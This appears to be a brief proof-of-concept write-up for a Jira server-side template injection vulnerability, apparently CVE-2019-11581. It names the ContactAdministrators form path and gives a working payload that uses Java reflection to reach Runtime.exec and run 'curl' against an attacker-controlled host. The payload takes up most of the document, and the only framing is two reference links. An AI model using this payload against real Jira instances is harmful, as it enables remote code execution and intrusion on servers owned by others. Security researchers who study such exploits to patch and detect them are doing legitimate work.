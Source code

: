 ### Go to
https://<rhost>/secure/ContactAdministrators!default.jspa  

### Enter malicious string into form
```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('curl https://<lhost>').waitFor()
```

### References
* https://thehackerish.com/jira-vulnerabilities-and-how-they-are-exploited-in-the-wild  
* https://github.com/kobs0N/CVE-2019-11581.git  

